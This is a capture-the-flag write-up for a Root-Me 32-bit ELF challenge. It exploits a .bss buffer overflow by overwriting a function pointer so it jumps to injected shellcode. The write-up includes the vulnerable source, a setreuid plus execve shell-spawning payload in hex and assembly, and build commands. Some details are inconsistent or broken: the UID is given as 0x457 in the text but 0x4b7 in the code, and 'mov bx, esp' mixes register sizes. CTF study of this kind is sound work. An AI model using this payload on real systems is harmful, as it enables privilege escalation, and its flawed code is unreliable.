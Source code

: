 
# ELF x86 - BSS buffer overflow

[Task link](https://www.root-me.org/en/Challenges/App-System/ELF-x86-BSS-buffer-overflow)

Solved: [@novitoll](https://github.com/novitoll), [@Thatskriptkid](https://github.com/Thatskriptkid)

### Source

```c
    #include <stdio.h>
    #include <stdlib.h>
     
    char username[512] = {1};
    void (*_atexit)(int) =  exit;
     
    void cp_username(char *name, const char *arg)
    {
      while((*(name++) = *(arg++)));
      *name = 0;
    }
     
    int main(int argc, char **argv)
    {
      if(argc != 2)
        {
          printf("[-] Usage : %s <username>\n", argv[0]);
          exit(0);
        }
       
      cp_username(username, argv[1]);
      printf("[+] Running program with username : %s\n", username);
       
      _atexit(0);
      return 0;
    }

```

Vuln: BoF on `username` 512-byte which is located in `.bss` section. Overflow username, smash `_atexit` ptr to point back to username buffer where we put our payload.
Note: Most of exploits you will find for this challenge are not valid anymore as your shellcode requires the change in order to run in proper UID, GID if you use [sys_setreuid16](https://syscalls.kernelgrok.com/) syscall which you can trigger via `0x46 $eax`.

### Walkthrough

`username` is located in `$ebx+0x40` which has 512 bytes (0x200) buffer:

![username](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/2.png)

and then after `$ebx+0x40+0x200` there is `_atexit` which has rvalue pointing to `exit@plt`.

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/3.png)

Let's run it with 512 "A" and "B" to fill `username` buffer and override `_atexit` with "B"s. And put the breakpoint on `0x080484f1 call   0x8048466 <cp_username>`

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/4.png)

and we can see that we control the `_atexit` ptr which goes right after our username buffer:

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/5.png)


### Shellcode

We can use this shellcode as NX-bit is disabled for us. However, we need to modify it in order to run with right UID (1207), GID (1107):

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/6.png)

For that let's take the original shellcode and create a `shellcode.nasm` and modify it. As you can see in original shellcode, it's used for getting root user `uid=0, gid=0`, so that XOR-ing `ebx, ecx` registers is enough for that and pushing to `eax 0x46` (setreuid syscall) and triggering it via `int 0x80` works.

```
  "\x6a\x46"			// push   $0x46
  "\x58"			// pop    %eax
  "\x31\xdb"			// xor	  %ebx, %ebx
  "\x31\xc9"			// xor	  %ecx, %ecx
  "\xcd\x80"			// int    $0x80
```

Now, our UID is 1207 (0x457), it's 2 bytes. If we put it to `ebx, ecx` registers which are *4 bytes* we will get extra 2 `0x00` bytes padding per each register, which will make our shellcode invalid. So we can use `bx, cx` registers which are 2-bytes and make it work. You can even split it to `bh, bl` (1-byte) into 2 instructions, but in our case `bx, cx` regs. are fine.

Here is our shellcode:

```
section .text

global _start

_start:
        push   0x46
        pop    eax
        mov    bx, 0x4b7
        mov    cx, 0x453
        int    0x80

        xor    edx, edx
        push   0xb
        pop    eax
        push   edx
        push   0x68732f2f
        push   0x6e69622f
        mov    bx, esp
        push   edx
        push   ebx
        mov    cx, esp
        int    0x80
```

Now create the object, make ELF executable, takes the opcodes from objdump and get the shellcode string via [this online disassembly tool](https://defuse.ca/online-x86-assembler.htm#disassembly2):

```
$ nasm -f elf -o shellcode.o shellcode.nasm
$ ld -m elf_i386 -o shellcode shellcode.o
$ objdump -d shellcode
```

And now you can PWN!

![_atexit](https://github.com/Novitoll/writeups/blob/master/root-me/app-system/elf-x86-bss-stack-overflow/pics/pwn.png)

